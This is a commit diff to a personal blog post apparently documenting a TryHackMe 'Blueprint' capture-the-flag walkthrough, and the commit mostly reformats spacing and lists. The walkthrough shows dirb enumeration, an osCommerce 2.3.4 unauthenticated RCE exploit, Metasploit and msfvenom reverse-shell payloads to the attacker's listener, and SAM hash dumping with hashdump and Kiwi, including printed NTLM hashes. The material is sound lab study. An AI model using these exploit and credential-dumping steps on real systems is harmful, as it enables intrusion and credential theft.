

Before and after one commit to asadshamna/asadshamna.github.io, a Jekyll site: the page built from _posts/writeups/2026-05-20-Blueprint-Walkthrough.md, in a window 1280 px wide and 900 px high. Shown: the whole window, without its empty margins (107-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
blueprint updated

````diff
--- a/_posts/writeups/2026-05-20-Blueprint-Walkthrough.md
+++ b/_posts/writeups/2026-05-20-Blueprint-Walkthrough.md
@@ -9,6 +9,8 @@ categories: [writeups, tryhackme]
 In this walkthrough, I will be performing a full penetration test on the TryHackMe Blueprint machine. The goal of this machine is to enumerate the target, identify vulnerabilities, gain initial access, escalate privileges, and finally capture the root flag.
 
 This machine was very interesting because it demonstrated how dangerous misconfigured web applications and exposed installation directories can be. Throughout this walkthrough, I will explain every step I performed during the exploitation process, along with some additional insights and explanations which can help beginners understand the methodology behind the attack chain.
+
+[Access The TryHackMe Blueprint Machine.](https://asadshamna.github.io/Blueprint-Walkthrough).
 
 ### [](#header-3)Host Discovery
 
@@ -138,17 +140,20 @@ SMB ports 139 and 445 were enabled.
 One of the most interesting findings was the osCommerce installation running on port 8080.
 
 Nmap also revealed the following:
+
 > oscommerce-2.3.4/
 > oscommerce-2.3.4/catalog/
 > oscommerce-2.3.4/docs/
-This immediately became my primary attack vector.
+> This immediately became my primary attack vector.
 
 ### [](#header-3)Directory Enumeration
+
 Now I wanted to enumerate directories and files available inside the osCommerce application. For this task, I used DIRB.
 
 ```js
 dirb http://10.48.162.178:8080/oscommerce-2.3.4/catalog
 ```
+
 DIRB started brute forcing common directories and files using the default wordlist.
 
 #### [](#header-4)DIRB Findings
@@ -159,6 +164,7 @@ DIRB started brute forcing common directories and files using the default wordli
 ==> DIRECTORY: /catalog/includes/
 ==> DIRECTORY: /catalog/images/
 ```
+
 One thing that immediately caught my attention was the /install/ directory.
 
 The installation directory should never remain publicly accessible after deployment because attackers can abuse it to reconfigure the application or achieve remote code execution.
@@ -166,6 +172,7 @@ The installation directory should never remain publicly accessible after deploym
 I stopped the DIRB scan midway because I already had enough information to continue exploitation, but in a real-world engagement it is always recommended to let the scan continue for deeper enumeration.
 
 ### [](#header-3)Vulnerability Analysis
+
 Since I already knew the application version was osCommerce 2.3.4, I searched for publicly available exploits using Searchsploit.
 
 ```js
@@ -182,10 +189,12 @@ osCommerce 2.3.4.1 - Remote Code Execution (2)
 There were multiple exploits available for this version.
 
 I decided to use:
+
 > osCommerce 2.3.4.1 - Remote Code Execution (2)
-because it abuses the exposed installation directory to inject malicious PHP code and achieve unauthenticated remote code execution.
+> because it abuses the exposed installation directory to inject malicious PHP code and achieve unauthenticated remote code execution.
 
 ### [](#header-3)Initial Remote Code Execution
+
 I executed the exploit against the vulnerable target.
 
 ```js
@@ -194,18 +203,23 @@ python3 50128.py http://10.48.162.178:8080/oscommerce-2.3.4/catalog/
 [*] Testing injecting system command to test vulnerability
 User: nt authority\system
 ```
+
 The exploit worked successfully, and I immediately gained remote command execution.
 I verified my privileges:
+
 ```js
 RCE_SHELL$ whoami
 nt authority\system
 ```
+
 At this point I already had SYSTEM privileges, which is very uncommon during initial exploitation. Usually attackers need privilege escalation later in the attack chain, but due to the insecure configuration of the application, the injected PHP code executed with elevated permissions.
 
 However, this shell was unstable and had limited interactivity. I wanted a more reliable Meterpreter session for post exploitation activities.
 
 ### [](#header-3)Using Metasploit Framework
+
 I started PostgreSQL and launched Metasploit Framework.
+
 ```js
 service postgresql start && msfconsole
 ```
@@ -250,20 +264,26 @@ host           port   proto  name          state  info
 ```
 
 ### [](#header-3)Searching for Exploit Modules
+
 I searched Metasploit for osCommerce related modules.
 
 ```js
 msf > search oscommerce
 ```
+
 #### [](#header-4)Available Modules
+
 ```js
 0. exploit/unix/webapp/oscommerce_filemanager
 1. exploit/multi/http/oscommerce_installer_unauth_code_exec
 ```
+
 ```
 I'll use **exploit/multi/http/oscommerce_installer_unauth_code_exec**, This module specifically targets the vulnerable installer directory and injects malicious PHP code to obtain a reverse shell.
 ```
+
 #### [](#header-4)Configuring the Exploit Module
+
 I configured the exploit with the target details.
 
 ```js
@@ -280,12 +300,15 @@ LHOST => 192.168.143.183
 ```
 
 After setting the required options, I executed the exploit.
+
 ```js
-exploit
+exploit;
 ```
 
 #### [](#header-4)Meterpreter Session
+
 The exploit successfully opened a Meterpreter session.
+
 ```js
 msf exploit(multi/http/oscommerce_installer_unauth_code_exec) > exploit
 [*] Started reverse TCP handler on 192.168.143.183:4444
@@ -307,6 +330,7 @@ Even though I had shell access, the current session was still not ideal for deep
 So I decided to generate my own payload using MSFVenom.
 
 #### [](#header-4)Generating a Custom Payload
+
 I created a Windows Meterpreter reverse TCP payload.
 
 ```js
@@ -319,9 +343,11 @@ Payload size: 354 bytes
 Final size of exe file: 7168 bytes
 Saved as: blueprint_win_payload.exe
 ```
+
 MSFVenom generated an x86 Windows executable payload.
 
 Before executing the payload on the victim machine, I configured a listener using Metasploit’s multi/handler module.
+
 ```js
 msf > use multi/handler
 [*] Using configured payload generic/shell_reverse_tcp
@@ -334,10 +360,13 @@ LPORT => 5555
 msf exploit(multi/handler) > exploit
 [*] Started reverse TCP handler on 192.168.143.183:5555
 ```
+
 This listener waits for incoming reverse shell connections from the victim.
 
 #### [](#header-4)Uploading the Payload
+
 Inside the existing Meterpreter session, I navigated to the C:\ drive and created a temporary directory.
+
 ```js
 meterpreter > pwd
 C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes
@@ -348,27 +377,35 @@ meterpreter > cd Temp
 meterpreter > ls
 No entries exist in C:\Temp
 ```
+
 I uploaded the payload file.
+
 ```js
 meterpreter > upload /home/asad/THM_Blueprint/blueprint_win_payload.exe
 [*] Uploading  : /home/asad/THM_Blueprint/blueprint_win_payload.exe -> blueprint_win_payload.exe
 [*] Uploaded -1.00 B of 7.00 KiB (-0.01%): /home/asad/THM_Blueprint/blueprint_win_payload.exe -> blueprint_win_payload.exe
 [*] Completed  : /home/asad/THM_Blueprint/blueprint_win_payload.exe -> blueprint_win_payload.exe
 ```
+
 After uploading the payload successfully, I executed it.
+
 ```js
 execute -f blueprint_win_payload.exe
 ```
 
 #### [](#header-4)SYSTEM Level Access
+
 As soon as the payload executed, my multi-handler received a new Meterpreter session.
+
 ```js
 [*] Started reverse TCP handler on 192.168.143.183:5555
 [*] Sending stage (190534 bytes) to 10.48.162.178
 /usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.25/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
 [*] Meterpreter session 1 opened (192.168.143.183:5555 -> 10.48.162.178:49566) at 2026-05-20 16:01:34 +0530
 ```
+
 I verified the privileges:
+
 ```js
 meterpreter > sysinfo
 Computer        : BLUEPRINT
@@ -381,11 +418,14 @@ Meterpreter     : x86/windows
 meterpreter > getuid
 Server username: NT AUTHORITY\SYSTEM
 ```
+
 Now I had a stable Meterpreter session running with full SYSTEM privileges.
 At this stage, the target machine was completely compromised.
 
 ### [](#header-3)Capturing the Root Flag
+
 I navigated to the Administrator Desktop.
+
 ```js
 meterpreter > pwd
 C:\Temp
@@ -399,15 +439,19 @@ Listing: C:\Users\Administrator\Desktop
 100666/rw-rw-rw-  282   fil   2019-04-12 04:06:47 +0530  desktop.ini
 100666/rw-rw-rw-  37    fil   2019-11-27 23:45:37 +0530  root.txt.txt
 ```
+
 I displayed the contents of the root flag.
+
 ```js
 meterpreter > cat root.txt.txt
 ```
 
 ### [](#header-3)Dumping Password Hashes
+
 Since I already had SYSTEM privileges, I decided to dump password hashes from the SAM database.
 
 Using Meterpreter:
+
 ```js
 meterpreter > hashdump
 Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
@@ -416,13 +460,15 @@ Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
 ```
 
 These NTLM hashes can later be cracked using:
-* JohnTheRipper
-* Hashcat
-* Online NTLM cracking services
+
+- JohnTheRipper
+- Hashcat
+- Online NTLM cracking services
 
 Meterpreter provides the Kiwi extension, which integrates Mimikatz functionality directly into the session.
 
 I loaded the extension:
+
 ```js
 meterpreter > load kiwi
 Loading extension kiwi...
@@ -435,7 +481,9 @@ Loading extension kiwi...
 
 Success.
 ```
+
 Then I dumped the SAM database again using Kiwi.
+
 ```js
 meterpreter > lsa_dump_sam
 [+] Running as SYSTEM
@@ -461,14 +509,16 @@ User : Lab
 This confirmed that the hashes were extracted successfully.
 
 ### [](#header-3)Conclusion
+
 The Blueprint machine was a very good beginner-friendly Windows exploitation lab that covered:
-* Enumeration
-* Web exploitation
-* Remote Code Execution
-* Reverse shells
-* Meterpreter sessions
-* Post exploitation
-* Hash dumping
+
+- Enumeration
+- Web exploitation
+- Remote Code Execution
+- Reverse shells
+- Meterpreter sessions
+- Post exploitation
+- Hash dumping
 
 The main vulnerability was the exposed osCommerce installation directory combined with an outdated version of the application.
 
````
